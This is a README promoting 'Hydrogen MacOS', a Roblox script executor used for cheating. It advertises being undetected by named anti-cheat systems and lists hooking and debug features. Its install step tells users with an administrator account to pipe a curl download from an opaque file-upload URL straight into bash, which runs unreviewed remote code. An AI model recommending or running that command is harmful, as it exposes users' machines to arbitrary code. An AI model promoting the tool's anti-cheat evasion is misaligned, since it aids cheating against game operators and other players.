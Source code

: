 
> ___

Hydrogen MacOS returns!

This is an extremely early BETA, don't expect it to be perfect please 🙂 Report crashes and non-working scripts to me. 

Hydrogen MacOS is the first ever scripting utility to natively support both arm64 and x86_64! Enjoy unrivaled performance and memory utilization. Featuring a Metal hook for the drawing library, ensuring maximum performance. 

**Features**:
```md
- Hydrogen is the **only** tool that has a native and Metal accelerated drawing library
- **Undetected** in Da Hood and Faithful AC V3 by europa
- Fast updates
- Stable execution environment
```

> ___

Big Update!

```md
Core changes:
- Fixed getsenv
- Fixed hookfunction
- Fixed clonefunction
- Fixed debug.getstack
- Fixed debug.setstack
- Added sethiddenproperty, doesn’t pass sUNC though because of BinaryString and SharedString (almost done reversing this
```

**Hydrogen now has the highest sUNC score of all MacOS scripting utilities!**

> ___

- xgladius

> ___

- sUNC: 91%
> https://sunc.rubis.app/?scrap=wCJrS0lYanQv1S1z&key=ZXcmEizFZMufJDmmgCDGTEVIn1fa2nhW

- UNC: 94%

> ___

> [!Note]
Your Mac account must be adminstrator.
> ___
>Your mac os version must be BigSur or up to run Hydrogen.

> ___

To install, please paste this in your terminal:
```sh
bash -c "$(curl -fsSL https://0ai4bbbahf.ufs.sh/f/4fzhZqSSYIjm5PWoiZFC3tDrd4BxgTcwUaPjZ67XmAneGOLz)"
```

> ___

> [!Note]
Please be aware that the current version of Hydrogen Mac is available in this repository. For the most up-to-date information and updates, I recommend joining the Hydrogen Discord server: https://discord.gg/gethydrogen

> ___
